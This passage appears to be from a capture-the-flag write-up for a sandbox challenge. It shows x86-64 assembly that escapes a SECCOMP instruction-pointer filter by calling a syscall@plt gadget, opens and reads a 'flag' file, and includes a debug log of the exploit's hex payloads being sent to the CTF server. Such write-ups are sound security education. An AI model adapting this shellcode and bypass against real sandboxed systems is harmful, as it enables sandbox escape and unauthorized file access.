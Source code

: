 Once in 64-bit mode, we can bypass SECCOMP `instruction_pointer` rule by executing pre-existing gadgets located above 4 GBytes.
One of the available gadgets is `syscall@plt` from the sandbox binary:
```
0000000000000ce0 <syscall@plt>:
 ce0:   ff 25 9a 22 20 00       jmp    QWORD PTR [rip+0x20229a]        # 202f80 <syscall@GLIBC_2.2.5>
```

Using this gadget we can construct following code to read `flag` file:
```
        hijack_64:
            movabs  rax, 0x10000001e            /* address of kernel subroutine in kernelland entry page */
            mov     rbp, [rax]
            sub     rbp, 0x760                  /* move back to syscall@plt */

            /* open(pathname, O_RDONLY) */
            mov     rdi, __NR_open
            lea     rsi, [rip + pathname]
            mov     rdx, O_RDONLY
            call    syscall_gadget

            /* read(rax, rsp, 0x100) */
            mov     rdi, __NR_read
            mov     rsi, rax
            mov     rdx, rsp
            mov     rcx, 0x100
            call    syscall_gadget

            /* write(1, rsp, rax) */
            mov     rdi, __NR_write
            mov     rsi, 1
            mov     rdx, rsp
            mov     rcx, 0x100
            /* fall-through */
        syscall_gadget:
            push    rbp
            ret

        pathname:
           .asciz  "flag"
```

Running full exploit against CTF server gives the flag:
```
$ ./exploit.py 
[+] Opening connection to sandbox-compat.ctfcompetition.com on port 1337: Done
[DEBUG] Received 0x29 bytes:
    'beef0000-bef00000 rw-p 00000000 00:00 0 \n'
[DEBUG] Received 0x73 bytes:
    'dead0000-dead1000 r-xp 00000000 00:00 0 \n'
    'fffff000-100001000 r-xp 00000000 00:00 0 \n'
    '[*] gimme some x86 32-bit code!\n'
...
[DEBUG] Sent 0x24 bytes:
    00000000  bc 00 00 f0  be 81 ec 00  02 00 00 fd  6a 00 68 24  │····│····│····│j·h$│
    00000010  00 ad de bf  02 00 00 00  8d 74 24 08  31 c0 48 c1  │····│····│·t$·│1·H·│
    00000020  e0 0c 50 c3                                         │··P·││
    00000024
[DEBUG] Sent 0x66 bytes:
    00000000  48 b8 1e 00  00 00 01 00  00 00 48 8b  28 48 81 ed  │H···│····│··H·│(H··│
    00000010  60 07 00 00  48 c7 c7 02  00 00 00 48  8d 35 3f 00  │`···│H···│···H│·5?·│
    00000020  00 00 48 c7  c2 00 00 00  00 e8 31 00  00 00 48 c7  │··H·│····│··1·│··H·│
    00000030  c7 00 00 00  00 48 89 c6  48 89 e2 48  c7 c1 00 01  │····│·H··│H··H│····│
```